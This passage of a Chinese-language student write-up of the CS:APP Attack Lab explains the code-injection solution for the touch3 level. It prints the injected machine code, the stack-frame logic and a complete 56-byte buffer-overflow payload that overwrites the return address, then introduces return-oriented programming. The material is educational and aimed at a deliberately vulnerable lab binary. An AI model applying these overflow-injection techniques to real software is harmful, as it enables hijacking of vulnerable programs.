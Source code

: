 字节级表示为：

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

### 栈帧讲解

我们期望的栈帧应该是这样的：

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305101326911.png)

逻辑如下：

- `getbuf` 执行 `ret`，从栈中弹出返回地址，跳转到我们注入的代码
- 代码执行，先将存在 `caller` 的栈中的字符串传给参数寄存器 `%rdi`，再将 `touch3` 的地址压入栈中
- 代码执行 `ret`，从栈中弹出 `touch3` 指令，成功跳转

### Solution

我们的 cookie`0x59b997fa` 作为字符串转换为 `ASCII` 为：`35 39 62 39 39 37 66 61`

注入代码段的地址与上题一样，同样为 ``0x5561dc78``

由于在 `test` 栈帧中多利用了一个字节存放 cookie，所以本题要输入 56 个字节。注入代码的字节表示放在开头，33-40 个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放 cookie 的 `ASCII` 。于是得到如下输入：

```shell
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![](https://kkcx.oss-cn-beijing.aliyuncs.com/img/image-20220305102649568.png)

**攻击成功！**

`Part 1` 就此完结啦！

## Part 2: Return-Oriented Programming

在第二部分中，我们要攻击的是 `rtarget`，它的代码内容与第一部分基本相同，但是攻击它却比第一部分要难得多，主要是因为它采用了两种策略来对抗缓冲区溢出攻击

- 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码
- 限制可执行代码区域。它限制栈上存放的代码是不可执行的。

看到这里，我不禁一头雾水，这下子该怎么攻击啊？
